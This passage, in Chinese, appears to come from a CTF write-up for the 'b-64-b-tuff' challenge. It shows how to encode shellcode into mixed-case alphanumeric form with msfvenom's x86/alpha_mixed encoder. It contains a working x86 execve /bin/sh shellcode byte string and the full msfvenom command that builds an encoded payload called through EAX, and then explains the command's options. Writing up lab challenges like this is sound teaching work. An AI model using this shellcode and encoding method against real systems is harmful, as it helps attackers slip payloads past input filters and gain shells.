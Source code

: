 显然，我们需要先执行`msfvenom -l encoders`挑选一个编码器:

![Alt](img/shellcode变形4.png)

图中的x86/alpha_mixed可以将shellcode编码成大小写混合的代码，符合我们的条件。所以我们配置命令参数如下：
`python -c 'import sys; sys.stdout.write("\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80")' | msfvenom -p - -e x86/alpha_mixed -a linux -f raw -a x86 --platform linux BufferRegister=EAX -o payload`
其中，我们需要自己输入shellcode，但msfvenom只能从stdin中读取，所以使用linux管道操作符“|”，把shellcode作为python程序的输出，从python的stdout传送到msfvenom的stdin。此外配置编码器为x86/alpha_mixed，配置目标平台架构等信息，输出到文件名为payload的文件中。
`-p, --payload       <payload>    Payload to use. Specify a '-' or stdin to use custom payloads`
`-e, --encoder       <encoder>    The encoder to use`
`-a, --arch          <arch>       The architecture to use`
`-f, --format        <format>     Output format (use --help-formats for a list)`
`-a, --platform      <platform>   The platform of the payload`
`-o, --out           <path>       Save the payload`
最后，由于在b-64-b-tuff中是通过指令call eax调用shellcode的，所以配置`BufferRegister=EAX`。
